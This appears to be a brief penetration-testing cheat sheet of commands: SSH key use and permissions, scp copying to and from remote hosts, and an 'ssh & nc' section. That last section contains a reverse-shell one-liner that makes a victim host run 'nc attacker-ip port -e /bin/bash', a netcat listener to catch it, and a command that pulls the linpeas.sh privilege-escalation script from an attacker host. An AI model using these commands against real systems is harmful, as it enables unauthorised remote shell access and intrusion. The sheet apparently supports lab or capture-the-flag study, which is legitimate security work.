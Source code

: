 ```
C:\\Users\\username\\.ssh\\id_rsa
```

```
chmod 600 ssh_key
```

```
ssh -i ssh_key user@ip
```

### Copy a Local File to a Remote System

```
scp localfile  remoteusername@remotehost:/remote/directory
```

### Copy a Remote File to a Local System

```
scp remoteusername@remotehost:/remotefile /local/directory
```

## ssh & nc

```
ssh username@victim-ip "nc attacker-ip port -e /bin/bash"
```

```
nc -nlvp port
```

```
ssh username@victim-ip "nc attacker-ip port > linpeas.sh"
```

